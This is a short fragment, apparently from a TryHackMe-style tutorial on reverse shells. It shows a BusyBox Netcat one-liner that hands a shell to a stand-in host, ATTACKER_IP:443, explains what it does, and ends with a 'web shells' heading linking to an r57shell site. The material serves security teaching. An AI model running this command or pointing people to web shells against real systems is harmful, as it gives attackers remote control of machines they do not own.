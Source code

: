 #### BusyBox

Terminal

target@tryhackme:~$ busybox nc ATTACKER_IP 443 -e sh

This BusyBox reverse shell uses Netcat (nc) to connect to the attacker at ATTACKER_IP:443. Once connected, it executes /bin/sh, exposing the command line to the attacker.

### web shells


Recourses: [https://www.r57shell.net/index.php](https://www.r57shell.net/index.php)
